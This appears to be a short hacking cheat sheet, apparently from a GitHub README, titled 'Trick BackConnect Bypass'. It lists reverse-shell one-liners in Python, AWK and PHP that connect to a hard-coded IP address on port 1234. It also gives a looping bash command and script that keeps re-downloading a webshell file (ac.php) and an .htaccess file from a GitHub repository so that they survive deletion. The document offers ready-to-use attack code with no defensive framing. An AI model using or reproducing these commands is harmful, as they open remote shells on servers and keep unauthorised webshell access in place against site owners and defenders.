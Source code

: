 # Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Tips & Trick Bypass Webshell / Crack Other Things / Defender Stuff
### Anti Delete Command : 
```
while true; do echo $(TZ=Asia/Jakarta date) && if [ ! -f ac.php ]; then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi && if ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; then curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess; fi && echo $(TZ=Asia/Jakarta date) && sleep 3; done
```
#### Script
```
#!/bin/bash

while true; do 
    echo $(TZ=Asia/Jakarta date)
    if [ ! -f ac.php ]; then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi
    ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a && curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess
    echo $(TZ=Asia/Jakarta date)
    sleep 2
done
```


Credit by revshells.com and @CallMeRep

